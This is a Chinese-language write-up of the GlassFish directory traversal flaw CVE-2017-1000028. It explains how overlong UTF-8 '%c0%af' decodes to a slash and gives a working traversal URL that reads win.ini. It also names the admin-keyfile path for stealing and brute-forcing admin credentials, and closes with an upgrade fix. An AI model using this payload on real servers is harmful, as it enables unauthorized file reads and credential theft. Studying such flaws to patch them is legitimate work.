 ## GlassFish Directory Traversal（CVE-2017-1000028）

java语言中会把%c0%af解析为\uC0AF，最后转义为ASCCII字符的`/`（斜杠）。利用..%c0%af..%c0%af来向上跳转，达到目录穿越、任意文件读取的效果。

计算机指定了UTF8编码接收二进制并进行转义，当发现字节以0开头，表示这是一个标准ASCII字符，直接转义，当发现110开头，则取2个字节 去掉110模板后转义。
UTF8编码模板如下

|字节数|大小范围（十进制）|字节1|字节2|字节3|字节4|
|-|-|-|-|-|-|
|1|U + 0000~ U + 007F（0~127）|0xxxxxxx|None|None|None|
|2|U + 0080~ U + 07FF（128~2047）|110xxxxx|10xxxxxx|None|None|
|3|U + 0800~ U + 0FFF（2048~65535）|1110xxxx|10xxxxxx|10xxxxxx|None|
|4|U + 10000 ~ U + 10FFFF(65536~‭1114111)|11110xxx|10xxxxxx|10xxxxxx|10xxxxxx|

C0AF 转换位二进制为 ‭‭110 00000 10 101111‬  ，110开头去掉摸板后为00000 101111 转换为10进制为47，ASSCI为`/`.

受影响版本：<=4.1.2版本

启动GlassFish后 ，访问
`http://your-ip:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini`, 发现成功读取win.ini文件。
![CVE-2017-1000028-01](./pic/CVE-2017-1000028-01.png)

Note:**如果在你的机器上不能成功读取，请自行添加..%c0%af**

读admin-keyfile文件，该文件是储存admin账号密码的文件,爆破。
位置在`glassfish/domains/domain1/config/admin-keyfile`
![GlassFish05](./pic/GlassFish05.png)

### 修复建议
升级GlassFish最新版本。